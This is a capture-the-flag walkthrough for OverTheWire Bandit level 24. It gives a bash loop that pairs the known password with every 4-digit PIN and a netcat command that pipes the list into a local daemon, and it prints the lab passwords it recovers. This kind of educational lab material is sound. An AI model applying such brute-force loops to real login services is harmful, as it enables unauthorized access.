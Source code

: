 # Level 24

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution

```console
ssh bandit24@bandit.labs.overthewire.org -p 2220
bandit24@bandit:~$ mkdir /tmp/dir
bandit24@bandit:~$ cd /tmp/dir
bandit24@bandit:/tmp/dir$ nano script.sh
```

I then needed to create a dictionary. This dictionary would have the current password + a 4 digit code. Since we do not know the 4 digit code, we need to print all possible variations.

```console

#!/bin/bash
passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for a in {0..9}
do
        for b in {0..9}
        do
                for c in {0..9}
                do
                        for d in {0..9}
                        do
                                echo $passwd $a$b$c$d >> dictionary.txt
                        done
                done
        done
done

```

Then I will need to run the script:

```console
bandit24@bandit:/tmp/dir$ chmod 777 script.sh
bandit24@bandit:/tmp/dir$ ./script.sh
bandit24@bandit:/tmp/dir$ cat dictionary.txt
```

Returns a large file with all possible combinations:
```console
...
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9957
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9958
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9959
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9960
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9961
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9962
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9963
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9964
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9965
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9966
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9967
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9968
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9969
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9970
...
```

We then need to use netcat on port `30002` and pipe in the `dictionary.txt`:

```console
bandit24@bandit:/tmp/dir$ cat dictionary.txt | nc localhost 30002 >> password.txt
```

Seeing as our password file will have many incorrect entries, we should sort it.

```console
bandit24@bandit:/tmp/pppp$ sort -u password.txt

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Wrong! Please enter the correct pincode. Try again.
```
